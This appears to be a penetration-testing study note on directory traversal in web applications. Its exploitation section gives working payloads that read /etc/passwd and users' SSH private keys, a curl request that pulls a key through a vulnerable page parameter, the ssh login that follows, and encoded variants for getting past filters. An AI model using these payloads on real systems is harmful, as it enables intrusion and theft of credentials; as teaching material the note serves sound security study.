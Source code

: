 
Allows us to read the contents of a file outside of the web root.

Directory traversal attacks can occur when a web application is not sanitizing user input.
Using directory traversal attacks we may be able to reveal sensitive information such as passwords or keys which may lead to system access.

We can test for directory traversal in get parameters. We can search the source code and buttons/links for addresses that may be vulnerable to directory traversal.

### Exploitation

#### Linux

1. `../../../../../../../etc/passwd`  - we can use as many relative paths as we want in order to reach the root directory - here we can find the users on the system
2. `../../../../home/<user>/.ssh/id_rsa` - here using a user we found in the /etc/passwd file we search for an ssh key to gain access to the system
3. `curl http://<URL>/<dir>/index.php?page=../../../../home/user/.ssh/id_rsa` - retrieve the key using curl/burp/programming language to get correct formatting.
4. `chmod 400 id_rsa` - adjust permissions of key to use for authentication
5. `ssh -i id_rsa -p 2222 user@ip/address`

Sometimes we will need to encode our `../` due to filtering from either the web application, a WAF/firewall or webserver. `%2e%2e/%2e%2e/`
#### Windows

Windows is not as easy as Linux. To exploit windows via directory traversal we must scour the system for sensitive log files and config files for services running on the system as there is no direct equivalent to Linux ssh access. 

When traversing windows we need to try both `../` and `..\..\` as some windows servers will only understand `..\`.
